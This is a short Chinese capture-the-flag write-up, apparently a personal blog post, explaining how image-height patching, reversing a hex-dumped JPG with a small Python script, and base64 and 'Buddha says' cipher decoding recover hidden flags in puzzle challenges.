

## 引大流咯，happy

下载后是一个图片,查看大小1067x1972,十六进制1067是42b,搜索042b，修改为1972的十六进制07b4,发现flag


## 倒立洗头

题目给了提示倒立洗头，然后查看下载下来的txt，查看头和尾，发现可能是一个jpg倒过来的十六进制代码，上脚本，先反过来
```python
s2 = ''
with open("key.txt",'r') as f:
    data = f.read()
    data = data[::-1]
    # print(data)
    for i in range(0,len(data),2):
        s1 = data[i:i+2]
        s2 += s1[::-1]
        # print(s2)
    with open("key1.txt",'w+') as f1:
        f1.write('ff'+s2)
```
由于jpg的文件头和文件尾格式为`ffd8**************ffd9`，反转之后的文件头为`d8********ffd9`,所以我们需要手动给文件头添加文件头ff,然后将十六进制代码复制，在winhex里面粘贴为hex，然后保存为1.jpg,然后在010里面打开，发现base64编码



解码后发现



去掉佛曰； 还有空格还有回车解码



# crypto
## rsa
